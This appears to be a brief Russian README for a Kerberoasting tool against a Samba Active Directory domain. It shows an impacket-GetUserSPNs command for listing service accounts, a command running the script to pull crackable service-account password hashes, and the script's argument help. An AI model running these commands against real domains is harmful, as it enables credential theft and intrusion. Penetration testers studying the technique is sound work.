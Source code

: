 # Kerberoasting

## Пример

1. Получим список сервисных учетных записей

```bash
KRB5CCNAME=tgs-ldap.ccache impacket-GetUserSPNs COMPANY.ALT/petrov -k -no-pass
```

2. Создаем список сервисных учетных записей

3. Выполняем команду для получения хэш-паролей

```bash
python samba_kerberoasting.py -u petrov -p P@ssw0rd -d COMPANY.ALT -H 100.64.0.23 -t users.txt
```

## Аргументы

```
usage: samba_kerberoasting.py [-h] -u USERNAME -p PASSWORD -d DOMAIN -H HOST [-v] -t TARGETS

options:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        Username of controlled principal
  -p PASSWORD, --password PASSWORD
                        Password of controlled principal
  -d DOMAIN, --domain DOMAIN
                        Domain name, e.g. domain.local
  -H HOST, --host HOST  IP address or FQDN of KDC
  -v, --verbose         Verbose mode
  -t TARGETS, --targets TARGETS
                        Path to file with target principals
```